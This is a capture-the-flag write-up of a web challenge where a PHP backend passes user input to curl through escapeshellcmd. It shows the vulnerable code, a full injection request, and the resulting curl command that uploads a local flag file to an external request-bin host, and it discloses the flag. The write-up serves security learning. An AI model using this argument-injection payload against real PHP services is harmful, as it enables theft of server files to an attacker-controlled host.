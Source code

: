 # Caas
Website inputs a url, checks to see if it works, then returns the data associated with the website:

![](https://i.imgur.com/CQPfvuT.png)


Front-end JavaScript checks to see if the inputed value is a valid URL. However it does not check on the backend. Using **Burp**, we can pass in values/flags for curl, for example `-V` for its version:

![](https://i.imgur.com/FJpnVVE.png)

And we get curl's version as the response.

The code that executes the curl command is in `web_caas/challengemodels/CommandModel.php`:
```php=
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
?>
```
The issue lies in `escapeshellcmd()`.

`escapeshellcmd()` escapes characters that could allow additional code execution, such as `&`, `|`, `&&` and more. However: unlike the similiar command `escapeshellcmdargs()` it doesn't care how many commands you pass in.

[This is exploitable with a number of functions, and **curl** is one of them.](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl)

I exploited this by creating a bucket on https://requestbin.com. Then I sent the following request:
```javascript=
POST /api/curl HTTP/1.1

Host: 46.101.37.171:30157

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://46.101.37.171:30157/

Content-Type: application/x-www-form-urlencoded

Origin: http://46.101.37.171:30157

Content-Length: 60

Connection: close



ip=-F flag=@../../flag https://enmfamuouytzk.x.pipedream.net
```

Remember, the command's format looks like:
```php=
$command = "curl -sL " . escapeshellcmd($url);
```
So with out injection it looks like this:
```php=
$command = "curl -sL " . escapeshellcmd("-F flag=@../../flag https://enmfamuouytzk.x.pipedream.net");
```
Which executes:
```bash=
curl -sL -F flag=@../../flag https://enmfamuouytzk.x.pipedream.net)
```

This command uploads the contents of `../../flag` to the url provided. Giving us the flag: `CHTB{f1le_r3trieval_4s_a_s3rv1ce}`